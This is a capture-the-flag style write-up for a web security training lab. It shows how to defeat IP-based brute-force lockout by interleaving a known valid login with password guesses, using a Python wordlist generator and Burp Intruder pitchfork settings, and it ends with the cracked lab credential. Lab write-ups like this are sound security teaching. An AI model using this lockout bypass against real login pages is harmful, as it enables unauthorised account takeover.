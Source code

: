 ## Lab: Broken brute-force protection, IP block

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page. 


    Your credentials: wiener:peter
    Victim's username: carlos
    Candidate passwords

## Steps

1. first login with the provided carlos and random password more than one time  | response -> incorrect password
| the IP is temporarily blocked try again in 1 min

2. create a wordlist of usernames, (carlos, wiener) only with python and add the the provided candidate passwords list in the python code

------------------------------------------------------------
print("#### the follwing are the usernames")
for i in range(150):
    if i % 3:
        print("carlos")
    else:
        print("wiener")

print("### the following are the passwords")
with open('passwords.txt', 'r') as f:
    lines = f.readlines()

i = 0
for pwd in lines:
    if i % 3:
        print(pwd.strip('\n'))
    else:
        print("peter")
        print(pwd.strip('\n'))
        i = i+1
    i = i+1
-------------------------------------------------------------

3. run the code u will see carlos, wiener arranged 1 by 1 like this and passwors list down below

carlos
carlos
wiener
carlos
carlos
wiener
carlos
carlos
wiener
------
peter
starwars
klaster
peter
112233
george
peter
computer
michelle
peter
jessica
pepper
peter
1111
zxcvbn
peter
555555
11111
-----

4. send the request to intruder and add  $$ to username and passowrd and set the attack type to pitchfork first list is the users generated by python code and second list is the password list 

5. add the attack to a resource pool with Maximum concurrent requests set to 1. By only sending one request at a time, you can ensure that your login attempts are sent to the server in the correct order.

6. start the attack | looking for 302 status code with carlos username
creds: carlos:mom


